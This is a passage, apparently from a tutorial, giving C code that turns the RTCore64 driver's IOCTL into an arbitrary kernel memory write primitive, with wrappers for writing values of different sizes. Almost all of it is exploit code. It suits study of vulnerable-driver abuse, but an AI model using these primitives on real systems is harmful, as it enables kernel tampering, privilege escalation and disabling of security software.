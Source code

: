 The primitive function for writing is similar, except for the IOCTL and the structure initialization:  

```c
BOOL RTCoreWriteMemory(ULONG_PTR Address, DWORD ValueSize, DWORD Value) {
	// create the structure which will be passed to the driver in the input buffer
	RTC64_MEMORY_STRUCT memory_write;
	// initialize the structure to zeroes
	ZeroMemory(&memory_write, sizeof(memory_write));

	// set the target address
	memory_write.Address = Address;
	// set the number of bytes to write
	memory_write.Size = ValueSize;
	// set the valye to write
	memory_write.Value = Value;
	
	// offset is not used so it will be zero

	if (!hDevice) {
		PRINT_ERROR(L"[-] Device not opened!\r\n");
		return FALSE;
	}

	if (!DeviceIoControl(
			hDevice, 
			RTC64_IOCTL_MEMORY_WRITE, // IOCTL 0x8000204c
			&memory_write,            // the input buffer
			sizeof(memory_write),     // input buffer length 
			&memory_write,            // output buffer the same as input buffer
			sizeof(memory_write), 
			NULL, 
			NULL)) {
		PRINT_ERROR(L"[-] Memory Write IRP Failed!\r\n");
		return FALSE;
	}

	return TRUE;
}
```

Next, let's create functions for writing values of different sizes, which will use the primitive function:  

```c
BOOL RTCoreWrite8(ULONG_PTR Address, BYTE Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite16(ULONG_PTR Address, WORD Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite32(ULONG_PTR Address, DWORD Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite64(ULONG_PTR Address, DWORD64 Value) {
	DWORD dwLow, dwHigh;

	dwLow = Value & 0xffffffff;
	dwHigh = (Value >> 32) & 0xffffffff;

	return RTCoreWrite32(Address, dwLow) && RTCoreWrite32(Address + 4, dwHigh);
}
```